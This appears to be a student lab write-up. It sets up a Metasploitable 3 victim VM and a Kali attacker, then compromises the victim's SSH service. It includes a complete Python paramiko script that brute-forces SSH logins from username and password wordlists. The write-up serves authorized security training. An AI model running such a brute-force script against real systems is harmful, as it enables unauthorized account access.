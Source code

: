# Phase1:
# Downloading and Importing Metasploitable 3 VM (the Victim environment):
![Screenshot 2025-04-26 194716](https://github.com/user-attachments/assets/6eb215a9-2c85-42b9-87cc-88133d73b8c1)

# Checking the connectivity between the attacker(kali) and the victim:
![Screenshot 2025-04-27 211734](https://github.com/user-attachments/assets/496e6b54-4a39-47a7-9e20-faae575623e2)
![Screenshot 2025-04-27 212646](https://github.com/user-attachments/assets/5e052f8c-2ace-4b61-b039-d71a933f0834)

# Setting up metasploit framework in the kali VM:
![Screenshot 2025-04-27 191041](https://github.com/user-attachments/assets/7015f966-f7bb-4857-9a44-9d6ca4e8ebaa)
 
# Task1.1: 
We choosed SSH service to compromise.

![Screenshot 2025-04-27 222648](https://github.com/user-attachments/assets/a77cc2c4-83fe-40f1-9f71-1d0a8cb5c31b)


# Task1.2: Custom script for compromising the SSH service :
import paramiko

#Target Information

target_ip = "192.168.8.36"

target_port = 22


#Files containing usernames and passwords

user_file_path = "user_file.txt"

pass_file_path = "pass_file.txt"


#Setup the SSH client

ssh_client = paramiko.SSHClient()

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())


#Read usernames and passwords from files

with open(user_file_path, "r") as uf:

    usernames = [line.strip() for line in uf if line.strip()]
    

with open(pass_file_path, "r") as pf:

    passwords = [line.strip() for line in pf if line.strip()]
    

#Try all combinations

for username in usernames:

    for password in passwords:
    
        try:
        
            print(f"[*] Trying {username}:{password}")
            
            ssh_client.connect(hostname=target_ip, port=target_port, username=username, password=password, timeout=5)
            
            print(f"[+] Success! Credentials found: {username}:{password}")
            
            ssh_client.close()
            
            exit()
            
        except paramiko.AuthenticationException:
        
            print(f"[-] Failed login: {username}:{password}")
            
        except Exception as e:
        
            print(f"[!] Connection error: {e}")
            

print("[-] No valid credentials found.")


Proof of Concept:

![Screenshot 2025-04-27 223238](https://github.com/user-attachments/assets/2fd540b2-2eab-46cc-819f-dd568370a04a)

![Screenshot 2025-04-27 223258](https://github.com/user-attachments/assets/87715ffd-6527-40ba-8160-f0ba35fec694)

it tried all possible combinations we took screenshots for the commands and when it found the correct credentials


